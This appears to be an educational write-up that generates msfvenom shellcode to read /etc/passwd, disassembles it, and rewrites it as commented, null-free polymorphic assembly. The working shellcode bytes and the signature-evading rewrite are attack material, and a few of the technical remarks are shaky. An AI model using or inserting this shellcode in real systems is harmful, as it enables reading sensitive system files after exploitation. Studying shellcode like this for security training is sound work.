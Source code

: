 

# Analyze: Read File

# Create shellcode
```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd
```


# Analysis

## Disassemble w/ bash
```bash
echo -n "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00" | ndisasm -u -
```

## Disassembled Assembly

```x86asm
00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

Here I will dissect the assembly piece by piece, followed by a commented version of theh code in entirety.



## Disassembled (UPDATED)

Here I have cleaned and commented the code, as well as put it in a .nasm format.

I noticed there were a lot of null bytes in the shellcode generated from msfvenom, so my polymorphic code revolves around removing those null bytes.

The first substitution I made is replacing an `xor` with a `sub` to zero out the `ecx` register. Note that this strategy may not work with all CPUs.

```x86asm
; xor ecx,ecx     ; replace xor instruction
sub ecx,ecx
```

Then, I change the `mov, 0x3` witt an `xor` to clear the register and `mov al, 0x3` to move the value of 3 into the register without having zeros in the shellcode.

```x86asm
; mov eax,0x3     ; read()
xor eax, eax
mov al, 0x3
```

Similar to the above strategy, I remove a `mov edx, 0x1000` with a `mov dh, 0x10` to remove nulls in the shellcode and have the same result.

```x86asm
    ; mov edx,0x1000  ; buf = 4096
    mov dh, 0x10
```

I again use the same trick as before to replace the `mov eax, 0x4` instruction:
   
```x86asm
; mov eax,0x4     
xor eax, eax
mov al, 0x4 
```
   
And again with ebx. Except this time since I need a value of 1 in the register, I will use the `inc` instruction to increment it after setting it to 0x0.

```x86asm
; mov ebx,0x1     ; 1 = stdout (where to write output)
xor ebx, ebx
inc ebx
```

I do the same thing for the eax register later in the assembly code.

```x86asm
; mov eax,0x1 
xor eax, eax
inc eax
```

I then replace a `mov ebx, 0x0` with an `xor` to remove null bytes in this instruction.

```x86asm
; mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
xor ebx, ebx
```

And that's it for the changes.

## Disassembled (Cleaned and commented)

Here I have cleaned and commented the final `.asm` code. I have left the instructions I replaced commented out.

```x86asm
global _start

section .text
_start:
    jmp short _jump1  ; jmp to jump1 (CALCULATE LATER)

_main:
    ;mov eax, 0x5
    push 0x5
    pop eax

    pop ebx         ; <addr> 0x3D (filename from stack) 

    ; xor ecx,ecx     ; replace xor instructions
    sub ecx,ecx
    int 0x80        ; call open() 

    mov ebx,eax     ; ebx now holds file descriptor

    ; mov eax,0x3     ; read()
    xor eax, eax
    mov al, 0x3
                    ; man 2 read
                    ; ssize_t read(int fd, void *buf, size_t count);
    mov edi,esp     
    mov ecx,edi     ; ptr to stack : returned file content will fill this buffer
    ; mov edx,0x1000  ; buf = 4096
    mov dh, 0x10
    int 0x80        ; call read()

    mov edx,eax     ; edx holds number of bytes returned from read()

    ; mov eax,0x4     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 4$"
    xor eax, eax
    mov al, 0x4 
                    ; write()
                    ; man 2 write
                    ; ssize_t write(int fd, const void *buf, size_t count);
    ; mov ebx,0x1     ; 1 = stdout (where to write output)
    xor ebx, ebx
    inc ebx

    int 0x80        ; call write() 
                    ; NOTE: ecx still points to stack (buffer to write)

    ; mov eax,0x1     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 1$"
    xor eax, eax
    inc eax

                    ; man exit
                    ; void exit(int status);
    ; mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
    xor ebx, ebx

    int 0x80        ; call exit()

_jump1:
    call _main    ; jump to main
    db  "/etc/passwd", 0x00
```

